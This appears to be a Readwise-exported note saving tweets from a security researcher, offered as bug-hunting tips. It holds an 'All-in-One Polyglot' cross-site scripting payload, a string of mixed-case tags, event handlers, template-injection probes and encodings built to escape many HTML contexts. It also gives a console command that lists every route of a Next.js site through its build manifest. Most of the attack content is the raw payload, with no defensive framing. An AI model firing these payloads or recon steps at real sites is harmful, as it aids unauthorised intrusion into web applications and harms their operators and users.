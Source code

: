 ```yaml
---
author: 0x0SojalSec on Twitter
aliases:
  - Tweets from Md Ismail Šojal 🕷️
tags:
  - readwise/tweets
url: https://twitter.com/0x0SojalSec?__readwiseLocation=
date: 2025-04-26
summary: None
---
```

# Tweets from Md Ismail Šojal 🕷️

![rw-book-cover](https://pbs.twimg.com/profile_images/1883568472426532864/C5S5F8sV.jpg)

## All-in-one Polyglot

All-in-One Polyglot: [](https://twitter.com/0x0SojalSec/status/1886147078377951479)
```html
'"*/onmouseover=(print)?.()><sVg/oNload='1>(_=prompt,_`{{7*7}}`)'></sTyle/</scRIpt/</textArea/</noScript/</tiTle/-->＜h1/<h1><image/onerror='alert`1`%27'src>xhzeem%22%3E%3CSvg/\u0022\u003e\u003csVg/\x22\x3e\x3csVg/&quot;&gt;&lt;svG/onload=alert`2`// 
```

## NextJS Recon Tip

Use #NextJS? Recon Tip by renniepak

A quick way to find "all" paths for Next.js websites:
- DevTools->Console
- `console.log(__BUILD_MANIFEST.sortedPages)`
- `javascript​:console.log(__BUILD_MANIFEST.sortedPages.join('\n'));`

![](https://pbs.twimg.com/media/GpU7fODbYAIKTmU.jpg) [](https://twitter.com/0x0SojalSec/status/1915502745018315228)

